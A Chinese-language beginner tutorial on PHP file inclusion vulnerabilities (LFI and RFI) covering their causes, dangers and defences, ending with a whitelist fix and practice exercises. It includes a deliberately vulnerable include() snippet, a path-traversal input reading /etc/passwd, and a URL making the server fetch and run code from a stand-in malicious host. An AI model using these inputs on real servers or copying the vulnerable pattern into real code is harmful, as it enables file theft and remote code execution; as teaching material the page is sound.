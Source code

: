 ```yaml
---
title: PHP 文件包含漏洞
description: 了解PHP文件包含漏洞的概念、成因、危害以及如何防范。本文适合初学者，通过代码示例和实际案例帮助你掌握PHP安全编程的基础知识。
---
```


## 什么是PHP文件包含漏洞？

PHP文件包含漏洞（File Inclusion Vulnerability）是一种常见的安全漏洞，通常发生在开发者使用PHP的 `include`、`require`、`include_once` 或 `require_once` 等函数时，未能正确验证用户输入的文件路径。攻击者可以通过构造恶意输入，将任意文件包含到PHP脚本中执行，从而导致服务器上的敏感文件泄露、代码执行等严重后果。

:::note
文件包含漏洞分为两种类型：
- **本地文件包含（Local File Inclusion, LFI）**：攻击者可以包含服务器本地的文件。
- **远程文件包含（Remote File Inclusion, RFI）**：攻击者可以包含远程服务器上的文件。
:::

## 文件包含漏洞的成因

文件包含漏洞的主要成因是开发者未对用户输入进行严格的验证和过滤。例如，以下代码片段展示了一个典型的文件包含漏洞：

```php
<?php
$page = $_GET['page'];
include($page . '.php');
?>
```

在这个例子中，`$page` 的值直接来自用户的输入（`$_GET['page']`），并且未经过任何验证或过滤。攻击者可以通过构造恶意输入，例如 `page=../../etc/passwd`，来包含服务器上的敏感文件。

## 文件包含漏洞的危害

文件包含漏洞可能导致以下安全问题：
1. **敏感文件泄露**：攻击者可以读取服务器上的敏感文件，如 `/etc/passwd`、数据库配置文件等。
2. **代码执行**：如果攻击者能够上传恶意文件到服务器，他们可以通过文件包含漏洞执行这些文件中的代码。
3. **服务器被控制**：通过执行恶意代码，攻击者可能完全控制服务器。

## 实际案例

### 案例1：本地文件包含（LFI）

假设我们有一个PHP脚本 `index.php`，代码如下：

```php
<?php
$page = $_GET['page'];
include($page . '.php');
?>
```

攻击者可以通过以下URL访问该脚本：

```
http://example.com/index.php?page=../../etc/passwd
```

这将导致服务器尝试包含 `/etc/passwd` 文件，并将其内容输出到浏览器中，从而泄露敏感信息。

### 案例2：远程文件包含（RFI）

如果PHP配置中启用了 `allow_url_include` 选项，攻击者可以通过远程文件包含漏洞执行远程服务器上的恶意代码。例如：

```php
<?php
$page = $_GET['page'];
include($page . '.php');
?>
```

攻击者可以通过以下URL访问该脚本：

```
http://example.com/index.php?page=http://malicious-site.com/evil
```

这将导致服务器包含并执行 `http://malicious-site.com/evil.php` 中的代码，从而可能完全控制服务器。

## 如何防范文件包含漏洞？

为了防范文件包含漏洞，开发者可以采取以下措施：

1. **避免直接使用用户输入**：尽量避免将用户输入直接用于文件包含操作。
2. **白名单验证**：如果必须使用用户输入，建议使用白名单机制，只允许包含预定义的文件。
3. **禁用远程文件包含**：在PHP配置中禁用 `allow_url_include` 选项，防止远程文件包含漏洞。
4. **使用绝对路径**：在文件包含操作中使用绝对路径，而不是相对路径。
5. **输入过滤**：对用户输入进行严格的过滤和验证，确保输入符合预期格式。

以下是一个改进后的代码示例：

```php
<?php
$allowed_pages = ['home', 'about', 'contact'];
$page = $_GET['page'];

if (in_array($page, $allowed_pages)) {
    include($page . '.php');
} else {
    die('Invalid page requested.');
}
?>
```

在这个例子中，只有 `home`、`about` 和 `contact` 这三个页面可以被包含，其他输入将被拒绝。

## 总结

PHP文件包含漏洞是一种严重的安全问题，可能导致敏感文件泄露、代码执行甚至服务器被控制。通过理解漏洞的成因和危害，并采取适当的防范措施，开发者可以有效地减少此类漏洞的风险。

:::tip
**附加资源**：
- [PHP官方文档 - 文件包含](https://www.php.net/manual/en/function.include.php)
- [OWASP - 文件包含漏洞](https://owasp.org/www-community/vulnerabilities/File_Inclusion)
:::

:::caution
**练习**：
1. 尝试在本地环境中复现上述案例，并观察漏洞的影响。
2. 修改代码，使用白名单机制防范文件包含漏洞。
3. 研究PHP配置中与文件包含相关的选项，并了解如何禁用远程文件包含。
:::